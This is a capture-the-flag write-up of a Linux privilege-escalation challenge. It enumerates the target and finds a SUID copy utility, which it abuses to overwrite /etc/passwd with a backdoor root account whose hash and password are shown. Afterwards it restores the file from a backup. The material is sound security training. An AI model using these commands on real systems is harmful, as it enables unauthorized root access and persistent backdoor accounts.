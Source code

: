 # Linux PrivEsc

This challenge is located in *Ostrich Saloon* on the *Island of Misfit Toys*. Speak to *Rose Mold* to start the challenge.

## Challenge Prompt

Once we open the terminal, we are greeted with the challenge prompt.

![Figure 1: Linux PrivEsc Challenge Prompt](/img/privesc-prompt.png)

We are currently running in the context of a standard non-privileged user account. Our goal is to elevate permissions to a super-user level and run an executable in the `/root` directory to complete the challenge. 

Before looking for privilege escalation vectors, we should perform some basic situational awareness checks.

```bash
id
hostname
pwd
ls -al
cat /etc/passwd
uname -a
```

![Figure 2: Gathering Basic Information](/img/privesc-basic.png)

## Enumeration

It is time to begin enumerating the file system for privilege escalation vectors. Typically, I search for the following low-hanging fruit privilege escalation opportunities first when evaluating a Linux target:
* `sudo`-abusable packages
* Plaintext credentials stored in environment variables or commnad history transcripts
* Abusable cron jobs
* Binaries with the SUID or the SGID bit set 

### Sudo Abuse

The first privilege escalation we check for is what commands we may run with `sudo`.

```bash
sudo -l
```

![Figure 3: Checking for `sudo` Abuse Vectors](/img/privesc-sudo.png)

It appears that the `sudo` package is not installed, so we will move on to other privilege escalation techniques.

### Environment Variables

Check for any sensitive information hardcoded as environment variables with `env`.

```bash
env
```

![Figure 4: Checking for Credentials Hardcoded as Credentials](/img/privesc-env.png)

None of the environment variables appear to be representing credentials.

### Cron Job Abuse

Check what cron jobs are running on the target. Cron job scripts are stored in subdirectories of the `/etc/` directory named after their running cadence (e.g. `cron.daily` for daily scripts, `cron.weekly` for weekly scripts, etc).

```bash
ls -alh /etc/cron*
```

![Figure 5: Checking for Abusable Cron Jobs](/img/privesc-cron.png)

The `apt-compat` and `dpkg` cron jobs are default jobs in Linux and not exploitable, so we can move on.

### SUID and SGID Marked Binaries

Attempt to check for binaries that have been assigned the SUID or SGID bit.

```bash
find / -perm -u=s -type f 2>/dev/null

find / -perm -g=s -type f 2>/dev/null
```

![Figure 6: Checking for Binaries with the SUID or SGID Bits Enabled](/img/privesc-suid-sgid.png)


The binary `/usr/bin/simplecopy` stands out to me. Check its `--help` menu.

```bash
simplecopy --help
```

![Figure 7: Checking the Help Menu of `/usr/bin/simplecopy`](/img/privesc-help.png)

The utility seems to copy an item to a destination. 

If we can overwrite files with the `simplecopy` binary, then we may be able to escalate privileges by overwriting the contents of `/etc/passwd`. Validate that we can overwrite files by creating two test files and using the `simplecopy` utility on them.

```bash
echo 'test 1' > test1.txt
echo 'test 2' > test2.txt
simplecopy test2.txt test1.txt 
cat test1.txt 
```

![Figure 8: Testing out the `simplecopy` Binary](/img/privesc-test.png)

The overwrite seems to work. 

## Exploitation

This will be our attack methodology:
* We will generate a DESCrypt hash of a known plaintext that we will use as our backdoor account's password.
* We will make a copy of `/etc/passwd` and apppend a line to our copy creating a new *root* account using our hash as its password.
* We will use `simplecopy` to overwrite the contents of `/etc/passwd` with our malicious copy, then login to the backdoor account.
* With our attack concluded, we should revert our changes.

On my personal instance of Kali Linux, I used the `mkpasswd` utility to generate a DESCrypt hash, which is a supported hash algorithm by `/etc/passwd`. If this were a real engagement, we should use a strong password, since creating a backdoor account with a very weak password would introduce another critical vulnerability to the system. For this challenge however, I generated a hash for the password *yougotpwnedithappens*.

```bash
echo 'yougotpwnedithappens' | mkpasswd -m descrypt -s
```

![Figure 9: Generating a Password Hash with `mkpasswd`](/img/privesc-mkpasswd.png)

Back on the target machine, create a backup of `/etc/passwd` in case we need to roll back our changes.

```bash
cat /etc/passwd > /tmp/passwd.bak
```

![Figure 10: Creating a Backup of `/etc/passwd`](/img/privesc-backup.md)

Continue with the attack by create a writeable copy of `/etc/passwd`, append the new line to `/etc/passwd` that adds a new superuser with our generated password, and validate its contents.

```bash
cat /etc/passwd > /tmp/passwd
echo 'root2:J68/tUveONM2s:0:0:root:/root:/bin/bash' >> /tmp/passwd
cat /etc/passwd
```

![Figure 11: Creating a Malicious Copy of `/etc/passwd`](/img/privesc-malicious-passwd.png)

With our malicious `/etc/passwd` file prepared, we can now overwrite the contents of `/etc/passwd`.

```bash
simplecopy /tmp/passwd /etc/passwd
```

![Figure 12: Overwriting the Contents of `/etc/passwd`](/imig/privesc-overwrite.png)

Now when we attempt to authenticate as *root2*, we should enter a shell running in the context of *root*.

```bash
su root2 - # Enter our password via STDIN
```

![Figure 13: Opening a New Session as *root2*](/img/privesc-exploited.png)

We are now running in a shell as *root*. Move to the directory `/root` and run the binary to complete the lab. The answer to the question is "santa", of course!

```bash
cd /root
ls -al
./runmetoanswer 
```

![Figure 14: Running the `runmetoanswer` Binary](/img/privesc-runmetoanswer.png)

Finally, we should exit the *root* shell and replace the current contents of `/etc/passwd` with the `/tmp/passwd.bak` backup file we created earlier. This ensures that we left the target machine the way we left it at the beginning of the engagement. We could also consider patching the vulnerability, but that might result in unintended broken functionality, so we will leave the binary alone for now.

```bash
exit
simplecopy /tmp/passwd.bak /etc/passwd
cat /etc/passwd
```

![Figure 15: House Cleaning Operations](/img/privesc-house-cleaning.png)
